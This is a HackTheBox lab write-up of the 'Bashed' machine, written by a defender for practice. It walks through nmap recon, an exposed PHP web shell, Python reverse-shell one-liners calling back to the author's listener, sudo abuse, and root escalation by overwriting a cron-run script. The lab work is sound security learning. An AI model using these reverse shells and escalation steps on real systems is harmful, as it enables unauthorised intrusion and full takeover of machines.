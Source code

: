 # HackTheBox Writeup: Bashed


As a career blue teamer I feel it's important to understand the tools, techniques, and thought processes of an attacker.  The best way to learn is by doing, and one of my favorite ways to practice is [HackTheBox](https://hackthebox.eu).

The machine named *Bashed* was recently retired so walkthroughs for it have been popping up everywhere. This one is mine.

# Recon
As usual with a HackTheBox target system, all you have at the onset is a name and IP address. My starting point is usually an nmap scan against the target machine's IP.

```
nmap -sC -sV -oA nmap 10.10.10.68
Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-12 16:05 EST
Nmap scan report for 10.10.10.68
Host is up (0.17s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.71 seconds
```


Ok, TCP 80 / HTTP is listening.  There are several options for investigating further, but before opening a web browser I continued with nmap and ran the http-enum script.

```
nmap --script http-enum 10.10.10.68
Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-12 16:07 EST
Nmap scan report for 10.10.10.68
Host is up (0.17s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
| http-enum:
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder
Nmap done: 1 IP address (1 host up) scanned in 46.16 seconds
```

The /dev directory contains a couple of scripts.  Visiting http://10.10.10.68/dev/phpbash.php in a browser presented me with a web shell (!).  I'm able to navigate the file structure and read the contents of /home.  Getting user.txt is a simple exercise at this point.

![bashed_user](/content/images/2018/05/bashed_user.png)

**user = owned**

# Gaining a Foothold

I need to get a "real" shell on the box to go any further. I choose one of my favorite reverse shell one-liners and see if it will work from the PHP web shell.

First, I'll need a listener on my local attacker machine:

```
nc -v -n -l -p 4444
```

Now I drop this python script directly in the web shell.  The ampersand (&) at the end just backgrounds the process.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<my HTB IP address>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &
```

Note that the field "my HTB IP address" would be the 10.10.x.x IP assigned to the VPN interface on my machine (usually tap0 on Kali Linux) when I'm connected to the HTB environment, and the port number (4444) is the same one I used to start the netcat listener in the previous step.
    
![bashed_revshell1](/content/images/2018/05/bashed_revshell1.png)
    
Now I have a reverse shell on the target system, but it's still limited. I try using python again to escape to a bash shell.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
![bashed_revshell2](/content/images/2018/05/bashed_revshell2.png)

Great, now I'm at a more typical shell as user www-data.  Time to enumerate.

# Enumeration

I checked many many things, but looking at sudo capabilities turned up some useful information.

```
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So, my current user (www-data) can run ALL commands as user scriptmanager with no password? I decide to try becoming scriptmanager.

```
www-data@bashed:/var/www/html/dev$ sudo -i -u scriptmanager
sudo -i -u scriptmanager
scriptmanager@bashed:~$
```

From the [sudo man page](https://www.sudo.ws/man/1.8.3/sudo.man.html):

> -i [command]
> The -i (simulate initial login) option runs the shell specified by the password database entry of the target user as a login shell. This means that login-specific resource files such as .profile or .login will be read by the shell. If a command is specified, it is passed to the shell for execution via the shell's -c option. ==If no command is specified, an interactive shell is executed.== sudo attempts to change to that user's home directory before running the shell. The security policy shall initialize the environment to a minimal set of variables, similar to what is present when a user logs in. The Command Environment section in the sudoers(5) manual documents how the -i option affects the environment in which a command is run when the sudoers policy is in use.

Bingo, now I'm scriptmanager.  More enumeration.

```
scriptmanager@bashed:/var/www/html/dev$ ls -l /
ls -l /
total 80
drwxr-xr-x   2 root          root           4096 Dec  4 11:22 bin
drwxr-xr-x   3 root          root           4096 Dec  4 11:17 boot
drwxr-xr-x  19 root          root           4240 Jan 12 20:25 dev
drwxr-xr-x  89 root          root           4096 Dec  4 17:09 etc
drwxr-xr-x   4 root          root           4096 Dec  4 13:53 home
lrwxrwxrwx   1 root          root             32 Dec  4 11:14 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4 11:16 lib
drwxr-xr-x   2 root          root           4096 Dec  4 11:13 lib64
drwx------   2 root          root          16384 Dec  4 11:13 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4 11:13 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4 11:18 opt
dr-xr-xr-x 122 root          root              0 Jan 12 20:24 proc
drwx------   3 root          root           4096 Dec  4 13:03 root
drwxr-xr-x  18 root          root            500 Jan 12 20:25 run
drwxr-xr-x   2 root          root           4096 Dec  4 11:18 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4 18:06 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Jan 12 20:24 sys
drwxrwxrwt  10 root          root           4096 Jan 12 21:07 tmp
drwxr-xr-x  10 root          root           4096 Dec  4 11:13 usr
drwxr-xr-x  12 root          root           4096 Dec  4 11:20 var
lrwxrwxrwx   1 root          root             29 Dec  4 11:14 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

Strange, ```scripts``` isn't a typical top-level directory and it's owned by scriptmanager. I move into the directory and investigate further.

```
scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Apr 20 08:14 .
drwxr-xr-x 23 root          root          4096 Dec  4 13:02 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4 17:03 test.py
-rw-r--r--  1 root          root            12 Apr 20 08:18 test.txt
```

Examining these two files leads me to believe that ```test.txt``` containts output from the ```test.py``` script.  However,```test.txt``` is owned by root while the directory it resides in and the ```test.py``` script that generates it are owned by scriptmanager.

This implies that root is executing the script as itself, so the output is written with root ownership. If I can replace ```test.py``` with my own malicious version I can do something on the target machine with root privileges. Reverse shell time!

# Privilege Escalation

```
scriptmanager@bashed:/scripts$ mv test.py old-test.py
scriptmanager@bashed:/scripts$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<my HTB IP address>",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
```

Here I moved/renamed the existing ```test.py``` and created my own with the reverse shell code. This isn't necessary, you could just add the reverse shell bits to the end of the existing file.

Again note the "my HTB IP address field" and port number. I want a second reverse shell that's separate from the one I'm currently working in, so I selected a new port (5555).

I'm not exactly sure how or when root executes the ```test.py``` script.  Given the autonomous nature of these HTB systems I assume it's just a cron job. I start a netcat listener on this new port on my local attacker machine and wait.

After a few minutes...

![94582eeb-e301-49ba-9bf2-64769b24438c](/content/images/2018/05/94582eeb-e301-49ba-9bf2-64769b24438c.png)

**root = owned**

# Conclusion
Looking back Bashed was a pretty simple machine, but there were two primary lessons I learned from it:

1. Look at the simple or obvious things first.  Don't assume every target is going to require some elaborate, complicated method to exploit.
2. Enumerate (a lot) and review the details carefully. It took me way too long to notice the permissions on <code>test.txt</code> and <code>test.py</code>

Did you conquer Bashed using some other method?  Feel free to reach out to me on [Twitter](https://twitter.com/aj_mcquay), I'd love to talk about it.

